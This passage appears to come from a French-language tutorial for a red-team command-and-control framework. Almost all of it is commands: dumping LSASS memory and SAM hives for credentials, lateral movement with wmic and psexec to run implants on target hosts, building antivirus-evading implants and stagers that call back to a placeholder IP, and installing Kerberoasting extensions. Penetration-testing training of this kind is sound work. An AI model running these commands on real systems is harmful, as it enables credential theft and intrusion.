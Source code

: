 ### 7.3 Collecte d'informations d'identification
```bash
# Dump de la mémoire LSASS (nécessite des privilèges admin)
execute procdump.exe -ma lsass.exe lsass.dmp

# Extraction des hashes SAM
execute reg save HKLM\SAM sam.hive
execute reg save HKLM\SYSTEM system.hive
```

### 7.4 Mouvement latéral
```bash
# Scan réseau
execute nmap -sn 192.168.1.0/24

# WMI (Windows)
execute wmic /node:"TARGET_IP" /user:"DOMAIN\USER" /password:"PASSWORD" process call create "cmd.exe /c C:\path\to\implant.exe"

# PsExec
execute psexec.exe \\TARGET_IP -u DOMAIN\USER -p PASSWORD C:\path\to\implant.exe
```

---

## 8. Évasion et Techniques Avancées

### 8.1 Évasion d'antivirus
```bash
# Génération d'implant obfusqué
generate --mtls [IP]:443 --os windows --format exe --evasion --save /tmp/evasive_implant.exe

# Utilisation de stagers
generate stager --lhost [IP] --lport 443 --format exe --save /tmp/stager.exe
```

### 8.2 Chiffrement et communication
```bash
# Configuration de la communication chiffrée
profiles new --mtls [IP]:443 --skip-symbols --name CustomProfile

# Utilisation du profil personnalisé
generate --profile CustomProfile --os windows --format exe --save /tmp/encrypted_implant.exe
```

### 8.3 Extensions et modules Armory
```bash
# Installation d'extensions depuis Armory
armory install kerberoast
armory install sharp-collection

# Utilisation des extensions
kerberoast
sharp-collection
```
